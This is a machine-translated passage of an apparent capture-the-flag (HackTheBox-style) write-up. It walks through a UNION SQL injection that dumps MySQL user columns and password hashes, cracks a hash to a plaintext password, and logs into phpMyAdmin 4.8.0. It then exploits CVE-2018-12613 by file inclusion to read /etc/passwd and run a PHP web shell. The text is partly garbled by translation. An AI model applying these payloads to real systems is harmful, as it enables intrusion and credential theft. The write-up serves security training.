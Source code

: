 在用户中显示列

`SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='user';-- -`

主机，用户，密码，Select\_priv，Insert\_priv，Update\_priv，Delete\_priv，Create\_priv，Drop\_priv，Reload\_priv，Shutdown\_priv，Process\_priv，File\_priv，Grant\_priv，References\_priv，Index\_priv，Alter\_priv，Show\_db\_priv，Super\_priv，Create\_tmp\_table\_priv，Lock\_tables\_priv，Execute\_priv，Repl\_slave\_priv，Repl\_client\_priv，Create\_view\_priv，Show\_view\_priv，Create\_routine\_priv、Alter\_routine\_priv、Create\_user\_priv、Event\_priv、Trigger\_priv、Create\_tablespace\_priv、ssl\_type、ssl\_cipher、x509\_issuer、x509\_subject、max\_questions、max\_updates、max\_connections、max\_user\_connections、插件、authentication\_string、password\_expired、is\_role、default\_role、max\_statement\_time

获取用户名/密码

`SELECT 1, user,3, 4,password, 6, 7 from mysql.user;-- -`

-
2D2B7A5E4E637B8FBA1D17F40318F277D29964D0

[hashes.org 搜索](https://hashes.org/search.php)会给出密码：

    MYSQL5 2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
    

#### 我管理

该用户名/密码将进入 phpmyadmin 网站：

 ![](https://image.cubox.pro/article/2022091809192271120/72846.jpg) 

我可以看到版本是4.8.0：

 ![](https://image.cubox.pro/article/2022091809192283715/14327.jpg) 

此版本中存在一个漏洞 [CVE-2018-12613](https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e)。它是一个本地文件包含 （LFI），允许远程执行代码 （RCE）。

LFI是因为在安全检查和包含中处理的方式不一致。我可以参观并查看包含的作品：`%3f``http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%3f/../../../../etc/passwd`

[![帕斯沃德](https://image.cubox.pro/article/2022091809190266521/58251.jpg)_点击查看全尺寸图片_](https://0xdf.gitlab.io/img/1561706568973.png)

现在，只需获取一些我想在网站上运行的php代码即可。我可以通过发出SQL查询，然后包括我的php会话信息来做到这一点。

我将单击顶部的“SQL”选项卡，然后输入查询：

    SELECT '<?php system($_GET["cmd"]);?>'
    

然后我点击去：

 ![](https://image.cubox.pro/article/2022091809192284814/89903.jpg) 

现在，我将包含我的 php 会话信息。我会检查打嗝以抓住我的饼干，并访问： ：`phpMyAdmin``http://10.10.10.143/phpmyadmin/index.php?cmd=id&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_e3qctegac4saf72rocbl1541j26u7mqm`

 ![](https://image.cubox.pro/article/2022091809192234986/96205.jpg) 
